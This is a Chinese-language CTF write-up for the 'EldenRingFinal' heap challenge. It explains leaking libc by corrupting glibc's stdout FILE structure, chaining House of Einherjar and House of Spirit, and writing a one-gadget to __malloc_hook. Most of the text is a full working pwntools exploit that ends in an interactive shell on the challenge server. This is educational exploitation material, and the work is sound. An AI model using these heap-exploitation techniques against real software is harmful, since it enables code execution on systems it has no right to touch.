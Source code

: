 # EldenRingFinal

~~标题依旧是没活~~  
*you need to learn some FILE IO knowlegde first*

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

众所周知，`.bss`段上存在`stdout`, `stdin`, `stderr`三个指针指向glibc中的`IO_FILE`，
又知修改`_IO_2_1_stdout_`的`_IO_write_base`，将其覆写为小于`_IO_write_ptr`的值，
可以在执行`puts`等函数时输出从base到ptr的字节，从而在没有`show`的情况下泄露libc

由于没开PIE，我们可以先利用Off-by-One打 **House of Einherjar** 造成Heap Overlap，以进行 Arbitrary Alloc，
利用字节错位分配堆块到`stdout`地址低处，打 **House of Spirit** 伪造堆块并修改`stdout`，
使其指向`_IO_2_1_stdout_`低地址处字节错位  
然后依次将堆块分配到伪造的堆块、`_IO_2_1_stdout_`低地址处（在`_IO_2_1_stderr_`中），
然后覆写`_IO_2_1_stderr_`结构体直到覆写`_IO_2_1_stdout_`的`_flags`为`0xfbad1800`，
以及其`_IO_write_ptr`为`_IO_2_1_stdout_`的`_chain`的地址（指向`_IO_2_1_stdin_`），
这样，在`add_note`结束时运行`puts("success!")`的时候就会泄露出libc（即`_IO_2_1_stdin_`的地址）  
要注意的是远程地址有偏移，在修改`stdout`时，由于需要修改2个字节，因此要爆破1/16的概率

> 一开始我借`stdout`为跳板，改`stdin`为0(prev_size)，想打`stderr`，结果发现，`scanf`会用到`stdin`！
> 也就是在执行`scanf`的时候直接SIGSEGV了，于是我就倒着找，在`stdout`之前的只读段中找跳板（libc非0的最高字节），
> 由于malloc时不会写入数据，因此这么做不会报错

在leak了之后，恢复堆结构，再打 **House of Einherjar** ，分配到`&__malloc_hook - 0x23`的位置写OneGadget即可

## EXPLOIT

```python
from pwn import *
import inspect
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering4')
        if lo & 2:
            gdb.attach(sh, gdbscript='p /x &_IO_2_1_stdout_')
    else:
        sh = remote('139.224.232.162', 31630)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/libc.so.6')
    elf = ELF('./eldering4')

    def eofHandler():
        warn(f'eof detected! running line {inspect.stack()[2][2]}') # print the line currently running
        if sh.can_recv():
            info(str(sh.recv()))
        sh.close()
        return None

    def addPage():
        sh.sendlineafter(b'>', b'1')

    def delPage(page:int):
        sh.sendlineafter(b'>', b'2')
        sh.sendlineafter(b'page', str(page).encode())

    def addNote(page:int, size:int, content:bytes=b'\n') -> bytes:
        sh.sendlineafter(b'>', b'3')
        sh.sendlineafter(b'to?\n>', str(page).encode())
        sh.sendlineafter(b'size:\n>', str(size).encode())
        sh.sendafter(b'tent:\n>', content)
        try:
            ret = sh.recvuntil(b'success!', False, 1)
        except EOFError:
            return eofHandler()
        if not ret:
            return eofHandler()
        elif ret[:1] == b'\n': # sometimes there is a '\n', sometimes not
            ret = ret[1:]
        return ret

    def delNote(page:int, note:int):
        sh.sendlineafter(b'>', b'4')
        sh.sendlineafter(b'>', str(page).encode())
        sh.sendlineafter(b'>', str(note).encode())

    chunkHead = elf.symbols['stdout'] - 0x2b # byte misalignment
    wStdoutOffset = (libc.symbols['_IO_2_1_stdout_'] - 0x43) & 0xfff
    if lo & 4:
        bruteByte = int(input('input last WORD of &_IO_2_1_stdout_: 0x'), 16) & 0xf000
    else:
        bruteByte = 0x4000
    wStdoutOffset += bruteByte
    bStdoutChain = (libc.symbols['_IO_2_1_stdout_'] + 0x68) & 0xff

    # alloc some 0x31 chunks in case allocations of structs influence our work
    addNote(0, 0x20) # 1
    addNote(0, 0x20) # 2
    addNote(0, 0x20) # 3
    addNote(0, 0x20) # 4
    addNote(0, 0x20) # 5
    delNote(0, 1)
    delNote(0, 2)
    delNote(0, 3)
    delNote(0, 4)
    delNote(0, 5)

    # house of einherjar #1, alloc to stdout - 0x2b to modify stdout
    addNote(0, 0x88) # 1
    addNote(0, 0x68) # 2
    addNote(0, 0x88) # 3
    addNote(0, 0x8) # 4 guard chunk, preventing chunks from being merged into top chunk
    delNote(0, 1)                                       # release in advance
    delNote(0, 2)
    addNote(0, 0x68, b'0'*0x60 + p64(0x100) + p8(0x90)) # 5 zero out PREV_INUSE of next chunk
    delNote(0, 3)                                       # cause heap overlap
    delNote(0, 5)                                       # now chunk 5 is in unsorted bin and fastbin
    addNote(0, 0x98, b'0'*0x88 + p64(0x71) + p64(chunkHead)) # 5 mod chunk 5's fd in fastbin
    addNote(0, 0x68) # 6 chunk 5 in fastbin
    addNote(0, 0x68, b'\0'*0x3 + p64(0)*2 + p64(0x71) + p16(wStdoutOffset)) # 7 alloc below stdout, force a chunk and mod stdout, 1/16 chance
    delNote(0, 5)
    delNote(0, 6)                                       # restore heap layout (like line 80)

    # house of einherjar #2, alloc to stdout and mod _IO_write_base
    addNote(0, 0x98, b'0'*0x88 + p64(0x71) + p64(chunkHead + 0x1b)) # 8
    addNote(0, 0x68) # 9
    addNote(0, 0x68) # 10
    ret = addNote(0, 0x68, b'\0'*0x33 + p64(0xfbad1800) + p64(0)*3 + p8(bStdoutChain)) # 11
    if ret is None:
        return 0

    stdin = u64(ret[:6] + b'\0\0')
    libcBase = stdin - libc.symbols['_IO_2_1_stdin_']
    success(f'\x1b[33mleak libcBase: {hex(libcBase)}\x1b[0m')
    mallocHook = libcBase + libc.symbols['__malloc_hook']
    ogg = libcBase + 0xf0897

    # house of einherjar #3, alloc to __malloc_hook and write one gadget
    delNote(0, 9)
    delNote(0, 8) # restore heap layout
    addNote(0, 0x98, b'0'*0x88 + p64(0x71) + p64(mallocHook - 0x23)) # 12
    addNote(0, 0x68) # 13
    addNote(0, 0x68, b'\0'*0x13 + p64(ogg)) # 14
    addPage() # trigger mallocHook

    sh.clean()
    sh.interactive()
    return 1
```
